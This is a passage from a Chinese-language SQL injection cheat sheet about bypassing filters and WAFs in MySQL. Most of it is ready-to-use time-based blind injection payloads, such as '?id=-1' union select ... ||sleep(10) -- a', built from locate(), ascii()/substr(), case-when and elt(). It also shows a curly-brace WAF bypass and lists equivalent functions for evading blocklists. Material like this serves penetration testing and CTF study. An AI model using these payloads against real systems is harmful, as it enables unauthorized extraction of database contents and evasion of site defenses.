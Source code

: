 * 也可以用`mysql.innodb_index_stats`来代替

  **之后使用无列名注入即可**



#### 12.`if()`函数过滤绕过

* `locate()`函数与`sleep()`（任意时间函数）的利用

  原理：`locate(s1,s2)`函数会比较输入的两个参数（只能是字符串），第一个参数是参照物，第二个参数是参照对象，该函数会判断参照对象中是否含有参照物，若不含有，则返回0，若含有，则返回该参照物在参照对象中的位置。因此，通过判断返回的值来实现盲注

  ```
  ?id=-1' union select 1,2,locate('e',database())=2 ||sleep(10) -- a
  ```

  如果数据库名的第二个字符是e，则无延迟，不是则有延迟

* `ascii()`函数与`sleep()`函数的利用

  ```
  ?id=-1' union select 1,2, ascii(substr(database(),1,1))=115 ||sleep(10) -- a
  ```

* `case`语句绕过

  payload如下

  ```
   and case when condition then result1（条件为真） else result0（条件为否） end
   
   ?id=1' and case when ascii(substr(database(),1,1))=115 then sleep(10) else 1 end -- a
  ```

* `elt()`函数利用

  原理：`elt(3,s1,s2，s3)`函数中第一个参数为索引（整数，从1开始），其余参数皆为字符串，该函数会根据索引，比如第一个参数为2，返回第二个字符串
  
  payload如下
  
  ````
  and elt((length(database())=3),sleep(3));
  ````
  
  索引位置写条件，根据真或假返回0和1，如果条件为真，返回1就会触发延时



#### 12.花括号绕过（绕过waf）

例如 `select 1,{x datbase()},3 --+`

原理：花括号左边是注释（左边可以是任意字母，但不能是数字），右边是查询语句的一部分



#### 13.等价函数绕过

* ·`sleep()`  ==>  `benchmark()`

* `concat_ws()`  ==>   `group_concat()`

* `mid()`  ==> `substr()`  ==>`substring()`
